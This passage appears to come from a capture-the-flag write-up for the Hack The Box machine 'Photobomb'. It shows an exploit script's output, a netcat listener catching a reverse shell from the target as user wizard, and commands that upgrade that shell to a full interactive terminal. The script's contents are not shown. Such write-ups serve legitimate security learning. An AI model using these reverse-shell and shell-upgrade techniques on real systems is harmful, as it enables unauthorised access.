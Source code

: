 ```bash
# Terminal 1
goku@exploitation:~$ ./exploit.sh
[+] Bulding the Payload
[+] Listning at 10.10.14.2:4444
[+] Pwned!
[+] Here is your shell
```

```bash
# Terminal 2
# Connection received
goku@exploitation:~$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from photobomb.htb [10.10.11.182] 53292
$ whoami
whoami
wizard
$ ls
ls
log  photobomb.sh  public  resized_images  server.rb  source_images
$ cd /home/wizard
cd /home/wizard
$ ls
ls
photobomb  user.txt
```

### Upgrade legacy shell to interactive shell:

```bash
# In reverse shell
goku@exploitation:~$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from photobomb.htb [10.10.11.182] 42836
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$

Ctrl-Z

# In Kali
goku@exploitation:~$ stty raw -echo
goku@exploitation:~$ fg

# In reverse shell
wizard@photobomb:~/photobomb$ reset
wizard@photobomb:~/photobomb$ export SHELL=bash
wizard@photobomb:~/photobomb$ export TERM=xterm-256color
wizard@photobomb:~/photobomb$ stty rows 38 columns 116

wizard@photobomb:~$ id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~$ # Amazing full tty shell
```
